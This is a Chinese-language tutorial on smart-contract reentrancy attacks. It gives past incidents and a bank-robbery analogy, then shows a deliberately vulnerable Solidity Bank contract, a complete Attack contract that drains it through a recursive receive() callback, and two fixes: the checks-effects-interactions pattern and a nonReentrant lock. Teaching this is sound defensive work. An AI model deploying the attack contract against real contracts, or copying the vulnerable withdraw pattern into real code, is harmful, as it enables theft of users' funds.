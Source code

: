 # 1. 重入攻击

介绍最常见的一种智能合约攻击-重入攻击，它曾导致以太坊分叉为 ETH 和 ETC（以太经典），并介绍如何避免它。

## 重入攻击

重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如 fallback 函数）循环调用合约，将合约中资产转走或铸造大量代币。

一些著名的重入攻击事件：

- 2016 年，The DAO 合约被重入攻击，黑客盗走了合约中的 3,600,000 枚 ETH，并导致以太坊分叉为 ETH 链和 ETC（以太经典）链。
- 2019 年，合成资产平台 Synthetix 遭受重入攻击，被盗 3,700,000 枚 sETH。
- 2020 年，借贷平台 Lendf.me 遭受重入攻击，被盗 $25,000,000。
- 2021 年，借贷平台 CREAM FINANCE 遭受重入攻击，被盗 $18,800,000。
- 2022 年，算法稳定币项目 Fei 遭受重入攻击，被盗 $80,000,000。

距离 The DAO 被重入攻击已经 6 年了，但每年还是会有几次因重入漏洞而损失千万美元的项目，因此理解这个漏洞非常重要。

## `0xAA`抢银行的故事

为了让大家更好理解，这里给大家讲一个"黑客`0xAA`抢银行"的故事。

以太坊银行的柜员都是机器人（Robot），由智能合约控制。当正常用户（User）来银行取钱时，它的服务流程：

1. 查询用户的 ETH 余额，如果大于 0，进行下一步。
2. 将用户的 ETH 余额从银行转给用户，并询问用户是否收到。
3. 将用户名下的余额更新为0。

一天黑客`0xAA`来到了银行，这是他和机器人柜员的对话：

1. 0xAA : 我要取钱，1 ETH。
2. Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？
3. 0xAA : 等等，我要取钱，1 ETH。
4. Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？
5. 0xAA : 等等，我要取钱，1 ETH。
6. Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？
7. 0xAA : 等等，我要取钱，1 ETH。
8. ...

最后，0xAA通过重入攻击的漏洞，把银行的资产搬空了，银行卒。

![](../../pic/solidity-4-1-1.png)

## 漏洞合约例子

### 银行合约

银行合约非常简单，包含1个状态变量`balanceOf`记录所有用户的以太坊余额；包含3个函数：

- `deposit()`：存款函数，将ETH存入银行合约，并更新用户的余额。
- `withdraw()`：提款函数，将调用者的余额转给它。具体步骤和上面故事中一样：查询余额，转账，更新余额。注意：这个函数有重入漏洞！
- `getBalance()`：获取银行合约里的ETH余额。

```js
contract Bank {
    mapping (address => uint256) public balanceOf;    // 余额mapping

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");
        // 转账 ether !!! 可能激活恶意合约的fallback/receive函数，有重入风险！
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

### 攻击合约

重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的`fallback`（回退）函数，从而造成循环调用的可能。Bank合约在`withdraw()`函数中存在ETH转账：

```js
(bool success, ) = msg.sender.call{value: balance}("");
```

假如黑客在攻击合约中的`fallback()`或`receive()`函数中重新调用了Bank合约的`withdraw()`函数，就会造成`0xAA`抢银行故事中的循环调用，不断让Bank合约转账给攻击者，最终将合约的ETH提空。

```js
receive() external payable {
    bank.withdraw();
}
```

下面我们看下攻击合约，它的逻辑非常简单，就是通过`receive()`回退函数循环调用Bank合约的`withdraw()`函数。它有1个状态变量bank用于记录Bank合约地址。它包含4个函数：

- 构造函数: 初始化Bank合约地址。
- `receive()`: 回调函数，在接收ETH时被触发，并再次调用Bank合约的withdraw()函数，循环提款。
- `attack()`：攻击函数，先Bank合约的`deposit()`函数存款，然后调用`withdraw()`发起第一次提款，之后Bank合约的`withdraw()`函数和攻击合约的`receive()`函数会循环调用，将Bank合约的ETH提空。
- `getBalance()`：获取攻击合约里的ETH余额。

```js
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## 预防办法

目前主要有两种办法来预防可能的重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

### 检查-影响-交互模式

检查-影响-交互模式强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。如果我们将Bank合约`withdraw()`函数中的更新余额提前到转账ETH之前，就可以修复漏洞：

```js
function withdraw() external {
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");
    // 检查-效果-交互模式（checks-effect-interaction）：先更新余额变化，再发送ETH
    // 重入攻击的时候，balanceOf[msg.sender]已经被更新为0了，不能通过上面的检查。
    balanceOf[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");
}
```

### 重入锁

重入锁是一种防止重入函数的修饰器（modifier），它包含一个默认为0的状态变量`_status`。被`nonReentrant`重入锁修饰的函数，在第一次调用时会检查`_status`是否为0，紧接着将`_status`的值改为1，调用结束后才会再改为0。这样，当攻击合约在调用结束前第二次的调用就会报错，重入攻击失败。

```js
uint256 private _status; // 重入锁

// 重入锁
modifier nonReentrant() {
    // 在第一次调用 nonReentrant 时，_status 将是 0
    require(_status == 0, "ReentrancyGuard: reentrant call");
    // 在此之后对 nonReentrant 的任何调用都将失败
    _status = 1;
    _;
    // 调用结束，将 _status 恢复为0
    _status = 0;
}
```

只需要用`nonReentrant`重入锁修饰`withdraw()`函数，就可以预防重入攻击了。

```js
// 用重入锁保护有漏洞的函数
function withdraw() external nonReentrant{
    uint256 balance = balanceOf[msg.sender];
    require(balance > 0, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");

    balanceOf[msg.sender] = 0;
}
```

此外，OpenZeppelin 也提倡遵循 PullPayment(拉取支付)模式以避免潜在的重入攻击。其原理是通过引入第三方(escrow)，将原先的“主动转账”分解为“转账者发起转账”加上“接受者主动拉取”。当想要发起一笔转账时，会通过`_asyncTransfer(address dest, uint256 amount)`将待转账金额存储到第三方合约中，从而避免因重入导致的自身资产损失。而当接受者想要接受转账时，需要主动调用`withdrawPayments(address payable payee)`进行资产的主动获取。
